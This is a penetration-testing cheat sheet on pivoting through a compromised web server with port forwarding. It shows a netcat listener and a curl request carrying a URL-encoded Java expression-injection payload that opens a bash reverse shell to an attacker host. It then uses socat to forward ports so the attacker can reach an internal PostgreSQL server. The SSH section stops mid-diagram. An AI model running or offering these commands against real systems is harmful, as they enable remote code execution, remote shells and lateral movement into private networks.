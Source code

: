 ## Table of contents
- [Simple Port Forwading](#Simple-Port-Forwading)
- [SSH Local Port Forwarding](#SSH-Local-Port-Forwarding)

# Simple Port Forwading

Scenario:
 - external attacker machine
 - vulnerable public webserver (RCE)
 - internal database server, same sebserver's network

```
+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN-PUBLIC-SRV ]  [ DB-SRV ]   |
|                  |    |                                     |
+------------------+    +-------------------------------------+
```

``` bash
# open a listener on the attacker machine
nc -nvlp 1337

# exploit the webserver with a reverse shell command
curl http://$TARGET:$PORT/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$ATTACKER/$PORT%200%3E%261%27%29.start%28%29%22%29%7D/

# check the network configuration
# search for interesting information: webapp configuration, db credentials, ...
ip add
ip route
```

Port forwarding with socat:
 - the NAT configuration must be 1:1
 - socat must be installed on the target machine

```
+- WAN ------------+    +- DMZ -------------------------------+
|                  |    |                                     |
|   [ ATTACKER ]   |    |   [ VULN_PUBLIC_SRV ]  [ DB_SRV ]   |
|                ========== LISTEN 2345 ======== FRW 5432     | ==> for PgSQL
|                ========== LISTEN 2222 ======== FRW 22       | ==> for SSH
+------------------+    +-------------------------------------+
```

``` bash
socat -add TCP-LISTEN:2345,fork TCP:$DB_SRV:5432
```

Connect to DB_SRV from ATTACKER via VULN_PUBLIC_SRV:
``` bash
psql -h VULN_PUBLIC_SRV -p 2345 -U $user
```

# SSH Local Port Forwarding

Scenario:

```
+- WAN ------------+    +- DMZ -------------------------------+    +- INTERNAL ----------+
|                  |    |                                     |    |                     |
|   [ ATTACKER ]   |    |   [ VULN-PUBLIC-SRV ]  [ DB-SRV ]   |    |   [ WORKSTATION ]   |
|                ========== LIST. 2222     |           |
|                  |    |                  +- SSH con -+                  |    |                     |
+------------------+    +-------------------------------------+    +---------------------+
```